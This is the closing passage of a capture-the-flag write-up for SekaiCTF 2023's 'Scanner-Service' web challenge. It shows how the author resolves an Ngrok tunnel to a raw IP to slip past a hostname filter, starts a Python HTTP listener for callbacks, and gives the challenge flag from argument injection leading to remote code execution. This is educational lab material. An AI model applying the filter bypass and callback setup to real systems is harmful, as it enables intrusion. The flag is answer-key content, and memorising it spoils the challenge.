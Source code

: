 > Note: If you're using Ngrok like me, in order to get rid of the hostname filter, we need to get the IP address of the Ngrok's hostname.

```shell
┌[siunam♥Mercury]-(~/ctf/SekaiCTF-2023/Web/Scanner-Service)-[2023.08.29|16:47:46(HKT)]
└> ping 0.tcp.ap.ngrok.io                                  
PING 0.tcp.ap.ngrok.io (13.229.3.203) 56(84) bytes of data.
64 bytes from ec2-13-229-3-203.ap-southeast-1.compute.amazonaws.com (13.229.3.203): icmp_seq=1 ttl=128 time=34.0 ms
[...]
```

```shell
┌[siunam♥Mercury]-(~/ctf/SekaiCTF-2023/Web/Scanner-Service)-[2023.08.29|16:42:25(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/SekaiCTF-2023/images/Pasted%20image%2020230829165106.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/SekaiCTF-2023/images/Pasted%20image%2020230829165120.png)

- **Flag: `SEKAI{4r6um3n7_1nj3c710n_70_rc3!!}`**

## Conclusion

What we've learned:

1. Exploiting arugment injection